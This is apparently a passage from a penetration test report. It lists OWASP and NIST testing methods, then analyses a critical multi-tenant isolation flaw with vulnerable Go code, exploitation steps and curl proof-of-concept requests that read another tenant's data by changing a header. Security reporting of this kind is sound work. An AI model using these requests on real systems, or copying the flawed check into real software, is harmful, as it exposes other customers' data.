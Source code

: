 2. **OWASP Testing Guide v4.2**
   - Authentication testing (OTG-AUTHN)
   - Authorization testing (OTG-AUTHZ)  
   - Session management testing (OTG-SESS)
   - Input validation testing (OTG-INPVAL)
   - Error handling testing (OTG-ERR)
   - Cryptography testing (OTG-CRYPST)
   - Business logic testing (OTG-BUSLOGIC)

3. **NIST SP 800-115 Guidelines**
   - Planning phase with stakeholder coordination
   - Discovery phase with network and service enumeration
   - Attack phase with controlled exploitation
   - Reporting phase with actionable recommendations

---

## Critical Vulnerability Analysis

### CVE-1: Multi-Tenant Boundary Bypass (CVSS 9.8)

**Technical Description:**
The multi-tenant isolation mechanism fails to properly validate tenant context in API requests, allowing authenticated users to access data from other tenants by manipulating request parameters.

**Root Cause Analysis:**
```go
// Vulnerable code pattern in tenant validation
func ValidateTenantAccess(userID, tenantID string) bool {
    user := GetUser(userID)
    // VULNERABILITY: No validation of tenant ownership
    if user != nil && tenantID != "" {
        return true  // Always returns true if user exists
    }
    return false
}
```

**Exploitation Vector:**
1. Authenticate with legitimate tenant credentials
2. Intercept API requests using Burp Suite or similar
3. Modify `tenant_id` parameter in request headers or body
4. Bypass validates and accesses other tenant data

**Proof of Concept:**
```bash
# Step 1: Legitimate authentication
curl -X POST "https://api.isectech.com/auth/login" \
  -H "Content-Type: application/json" \
  -d '{"email": "user@tenant-a.com", "password": "ValidPassword123"}'

# Step 2: Cross-tenant data access
curl -X GET "https://api.isectech.com/api/v1/customers" \
  -H "Authorization: Bearer [JWT_TOKEN]" \
  -H "X-Tenant-ID: tenant-b"  # Different tenant ID
```
